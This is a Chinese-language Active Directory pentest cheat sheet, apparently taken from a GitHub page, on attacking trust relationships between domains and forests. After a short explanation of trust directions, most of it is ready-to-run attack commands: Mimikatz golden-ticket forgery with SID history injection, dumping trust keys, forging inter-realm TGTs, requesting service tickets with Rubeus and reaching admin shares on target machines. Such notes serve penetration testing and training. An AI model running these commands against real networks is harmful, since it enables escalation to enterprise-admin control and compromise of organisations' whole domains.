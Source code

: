 	域之间的信任关系
	单程
	域 B 信任 A
	域 A 中的用户可以访问域 B 中的资源
	域 B 中的用户无法访问域 A 中的资源
	双向
	域 A 信任域 B
	域 B 信任域 A
	认证请求可以在两个域之间双向传递
### 枚举域之间的信任
  	>nltest /trusted_domains
	或者
	>([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
	返回
	SourceName          TargetName                    TrustType      TrustDirection
	----------          ----------                    ---------      --------------
	domainA.local      domainB.local                  TreeRoot       Bidirectional
### 利用域之间的信任
  	需要对当前域的域管理员级别访问权限
| Source     | Target  | Technique to use  |
|---|---|---|---|
| 根域      | 子域  | Golden Ticket + Enterprise Admin group (Mimikatz /groups) |
| 子域     | 子域  | SID History exploitation (Mimikatz /sids)                 |
| 子域     | 根域   | SID History exploitation (Mimikatz /sids)                 |
| 域林 A  | 域林 B  | PrinterBug + Unconstrained delegation ?  |
### 子域到域林 - SID劫持
  	大多数树都与双边信任关系相关联，以允许共享资源。
	要求：
	KRBTGT 哈希
	查找域的 SID
	Convert-NameToSid target.domain.com\krbtgt
	S-1-5-21-2941561648-383941485-1389968811-502

	使用Impacket
	lookupsid.py domain/user:password@10.10.10.10
	将 502 替换为 519 以代表 Enterprise Admins
	创建金票并攻击父域。
	>kerberos::golden /user:Administrator /krbtgt:HASH_KRBTGT /domain:domain.local /sid:S-1-5-21-2941561648-383941485-1389968811 /sids:S-1-5-SID-SECOND-DOMAIN-519 /ptt
### 域林与域林
  	要求：禁用 SID 过滤
	从 DC 中，使用 Mimikatz 转储currentdomain\targetdomain$信任帐户的哈希（例如，使用 LSADump 或 DCSync）。然后，使用此信任密钥和域 SID，使用 Mimikatz 伪造一个跨域 TGT，将目标域的企业管理员组的 SID 添加到我们的SID 历史记录中。
#### 转储信任密码（信任密钥）
  	查找末尾带有美元 ($) 符号的名称。大多数带有尾随$的帐户是计算机帐户，但有些是信任帐户
	>lsadump::trust /patch
#### 使用 Mimikatz 创建伪造的信任票证（跨域 TGT）
  	mimikatz(commandline) # kerberos::golden /domain:domain.local /sid:S-1-5-21... /rc4:HASH_TRUST$ /user:Administrator /service:krbtgt /target:external.com /ticket:c:\temp\trust.kirbi
	mimikatz(commandline) # kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:e4e47c8fc433c9e0f3b17ea74856ca6b /user:Administrator /service:krbtgt /target:moneycorp.local /ticket:c:\ad\tools\mcorp-ticket.kirbi
#### 使用 Trust Ticket 文件获取目标服务的 TGS
	>.\asktgs.exe c:\temp\trust.kirbi CIFS/machine.domain.local
	>.\Rubeus.exe asktgs /ticket:c:\ad\tools\mcorp-ticket.kirbi /service:LDAP/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt
#### 注入 TGS 文件并使用欺骗权限访问目标服务。
  	>kirbikator lsa .\ticket.kirbi
	>ls \\machine.domain.local\c$